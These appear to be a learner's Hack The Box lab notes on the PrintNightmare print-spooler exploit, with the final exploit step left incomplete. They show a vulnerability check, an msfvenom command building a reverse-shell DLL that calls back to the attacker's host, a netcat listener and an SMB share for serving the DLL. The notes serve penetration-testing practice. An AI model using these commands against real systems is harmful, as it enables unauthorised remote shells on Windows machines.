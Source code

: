 # PrintNightmare


Commands used:

\# check for vulnerability

```bash
┌─[eu-dedicated-18-dhcp]─[10.10.14.3]─[whiskeyneat@htb-msalycnfla]─[/]
└──╼ [★]$ impacket-rpcdump @10.129.194.206 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

\# create a malicious `.dll`

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9002 -f dll -o innocent.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: innocent.dll

```

\# start a listener

```
ncat -lnvp 9002
```

\# host the dll with smbserver

```
sudo impacket-smbserver share -smb2support .
```

\# fire the exploit

This is where I need to find an existing username and password combo

**(I think...)**

---

# 🔗 Useful Links

- [Medium.com | Gain RCE & Privesc on Windows Machines](https://systemweakness.com/printnightmare-gain-rce-privesc-on-windows-machines-a74f37b31ad)
- [Medium | Brute Forcing WINRM using Metasploit for Active Directory Access](https://medium.com/@chryb3r/brute-forcing-winrm-using-metasploit-for-active-directory-access-2ccc72dc30a5)
- [Hacking Articles | WinRM Penetration Testing](https://www.hackingarticles.in/winrm-penetration-testing/)

